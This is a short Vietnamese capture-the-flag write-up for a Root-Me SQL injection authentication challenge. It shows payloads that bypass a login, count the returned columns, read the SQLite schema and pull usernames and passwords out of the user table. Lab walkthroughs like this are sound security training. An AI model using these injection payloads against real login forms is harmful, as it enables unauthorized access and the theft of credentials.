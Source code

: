 ## Link challenge: [SQL injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)

Ta sẽ injection vào query ở mục đăng nhập. Ta thử một chút: `administrator' OR 1=1--` với password tuỳ ý. Ta có:

![img1](https://i.imgur.com/RpQsNYe.png)

Có lẽ query phía sau nếu được trả về sẽ vẽ ra thêm 1 khung đăng nhập nữa đã fill

Giờ ta check số cột sẽ được trả về bằn payload" `'ORDER BY 3--` và đứng như dự đoán, chỉ có 2 cột được trả về.

![img2](https://i.imgur.com/QVWTK7o.png)

Nhìn lỗi ta cũng biết thêm rằng SQLite3 được sử dụng cho database của trang web. Ta kiếm thông tin về table thông qua sqlite_master bằng query `'UNION SELECT name, sql FROM sqlite_master--`

![img3](https://i.imgur.com/lOf2E7v.png)

Từ đó, ta biết được có bảng `users` và bảng gồm các cột `usename, password, year`

Truy vấn lấy dữ liệu từ bảng này qua query: `'UNION SELECT username, password FROM user--`

![img4](https://i.imgur.com/ooddSoP.png)

Thế là DONE!